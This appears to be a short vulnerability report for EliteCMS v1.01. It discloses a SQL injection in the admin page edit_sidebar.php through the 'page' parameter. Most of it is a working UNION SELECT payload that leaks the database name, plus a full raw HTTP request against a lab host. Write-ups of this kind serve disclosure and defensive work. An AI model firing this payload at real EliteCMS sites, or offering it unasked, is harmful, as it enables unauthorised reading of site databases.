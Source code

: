 # Elitecms v1.01 by elitecms has SQL injection

vendors: https://elitecms.net/download.php

Vulnerability File: /admin/edit_sidebar.php

Vulnerability location: ip/eliteCMS1.01/admin/edit_sidebar.php?page=, page

dbname: elitecms101

[+] Payload: /eliteCMS1.01/admin/edit_sidebar.php?page=-1%20union%20select%201,2,3,4,database(),6,7,8,9,10,11--+&sidebar=1 // Leak place ---> page

```sql
GET /eliteCMS1.01/admin/edit_sidebar.php?page=-1%20union%20select%201,2,3,4,database(),6,7,8,9,10,11--+&sidebar=1 HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=307ef75a2f3ab4c1103d8a1e90cf120e
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167535779-a0eef3fa-47e6-438e-a850-2ac4169f203e.png)

![image](https://user-images.githubusercontent.com/54017627/167535807-1c047609-4a23-4ef6-ad53-0270f489b7bf.png)


